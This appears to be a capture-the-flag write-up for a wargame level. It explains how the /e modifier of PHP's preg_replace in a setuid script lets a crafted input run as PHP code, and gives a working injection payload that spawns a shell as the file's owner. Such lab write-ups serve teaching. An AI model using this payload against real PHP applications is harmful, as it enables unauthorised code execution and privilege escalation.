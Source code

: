 ## Solutions

First we have a php script
```php
#!/usr/bin/php
<?php
function y($m) { 
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m; 
}

function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a; 
}
```

It takes two arguments, the first is a file, the second is useless

the preg_replace function locate and transform a portion of string via regex.  
 - the first argument is used to locate the string.
 - the second argument is used to transform the string.  
 - the third argument is the actual string.

We see that the first preg_replace in the function x, has a /e in the first arguments
this /e change the behavior of the transformation and interpret the second argument as php code 
so we can execute code as user flag06 (flag06 is the owner of the php executable)  
Lets exploit this weakness!

```console
~$ echo '[x {${system(sh)}}]' > /tmp/hack
~$ ./level06 /tmp/hack /tmp/hack
```
WE ARE IN

```console
~$ whoami
flag06
~$ getflag
```

